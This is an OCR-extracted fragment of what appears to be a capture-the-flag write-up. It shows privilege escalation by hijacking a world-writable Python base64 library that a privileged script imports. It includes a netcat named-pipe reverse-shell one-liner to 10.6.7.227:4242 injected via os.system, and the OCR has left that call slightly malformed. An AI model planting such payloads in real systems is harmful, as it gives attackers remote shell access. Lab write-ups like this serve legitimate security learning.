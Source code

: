 # encode the image data in Base64 format
        encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
        output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
        with open(output_path, "wb") as output_file:
          output_file.write(encoded_image_data)
valleyDev@valley:~$


need to two things. A file that we have permission to write to.


A python3 file we can also access. 
Using the “locate” function we can locate 
/usr/lib/python3.8/base64.py
Which when checking with -la .We have -rwxrwxr-x which just means we can write out to the file. 
Had to look up the command when importing our scripts but it is located here 


https://gtfobins.github.io/gtfobins/python/


we need to add 
import os
import re
import struct
import binascii
import os
os.system('rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.7.227 4242 >/tmp/f'

__all__ = [
    # Legacy interface exports traditional RFC 2045 Base64 encodings
    'encode', 'decode', 'encodebytes', 'decodebytes',
    # Generalized interface for other encodings
    'b64encode', 'b64decode', 'b32encode', 'b32decode',
    'b16encode', 'b16decode',
    # Base85 and Ascii85 encodings
    'b85encode', 'b85decode', 'a85encode', 'a85decode',
    # Standard Base64 encoding
    'standard_b64encode', 'standard_b64decode',
    # Some common Base64 alternatives.  As referenced by RFC 3458, see thread
    # starting at:
    #
    # http://zgp.org/pipermail/p2p-hackers/2001-September/000316.html
    'urlsafe_b64encode', 'urlsafe_b64decode',
]
